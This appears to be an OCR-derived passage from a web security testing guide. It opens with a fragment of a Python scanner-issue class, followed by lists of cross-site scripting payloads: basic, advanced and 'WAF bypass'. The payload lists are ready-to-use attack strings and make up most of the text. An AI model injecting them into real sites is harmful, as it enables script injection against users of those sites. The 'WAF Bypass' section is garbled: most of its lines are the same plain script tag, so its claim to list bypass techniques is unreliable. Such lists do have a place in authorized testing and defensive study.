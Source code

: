 ```python
    def getRemediationDetail(self):
        return "Implement proper input validation and output encoding."
    
    def getHttpMessages(self):
        return self._httpMessages
    
    def getHttpService(self):
        return self._httpService
```

## Comprehensive Payload Lists {#payload-lists}

### Basic XSS Payloads
```
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
javascript:alert('XSS')
<iframe src=javascript:alert('XSS')></iframe>
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
<textarea onfocus=alert('XSS') autofocus>
<keygen onfocus=alert('XSS') autofocus>
<video><source onerror=alert('XSS')>
<audio src=x onerror=alert('XSS')>
<details open ontoggle=alert('XSS')>
<marquee onstart=alert('XSS')>
```

### Advanced XSS Payloads
```
<math><mi//xlink:href=data:x,<script>alert('XSS')</script>>
<svg><script>alert('XSS')</script></svg>
<iframe srcdoc="<script>alert('XSS')</script>">
<object data="javascript:alert('XSS')">
<embed src="javascript:alert('XSS')">
<form><button formaction="javascript:alert('XSS')">Click</button>
<isindex action="javascript:alert('XSS')">
<frameset onload=alert('XSS')>
<frame onload=alert('XSS')>
<applet code="javascript:alert('XSS')">
<base href="javascript:alert('XSS')">
<link rel="stylesheet" href="javascript:alert('XSS')">
<style>@import'javascript:alert("XSS")';</style>
```

### WAF Bypass Payloads
```
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
<script>alert(/XSS/.source)</script>
<script>alert('XSS')</script>
<script>alert('XSS')</script>
<script>alert('XSS')</script>
<script>alert('XSS')</script>
<script>alert('XSS')</script>
<script>alert('XSS')</script>
<script>alert('XSS')</script>
```

